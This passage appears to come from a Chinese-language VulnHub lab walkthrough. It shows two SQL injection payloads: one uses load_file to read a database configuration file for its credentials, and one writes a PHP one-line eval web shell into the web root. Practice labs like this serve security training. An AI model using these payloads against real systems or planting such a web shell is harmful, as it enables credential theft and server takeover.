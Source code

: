 ![image-20241207185159817](vulnhub靶场实战/image-20241207185159817.png)	

```
于是找到了数据库的账号和密码。
' union select 1,2,3,load_file("/var/www/mysqli_connect.php"),5,6,7,8#
```

![image-20241207185255254](vulnhub靶场实战/image-20241207185255254.png)	

```
我们可以尝试使用这个账号密码去访问远程访问。但是会登陆失败。
于是只能写入php一句话木马。
' union select 1,2,3,"<?php @eval($_POST['cmd']); ?>",4,5,6,7 into outfile '/var/www/shell2.php'#
```
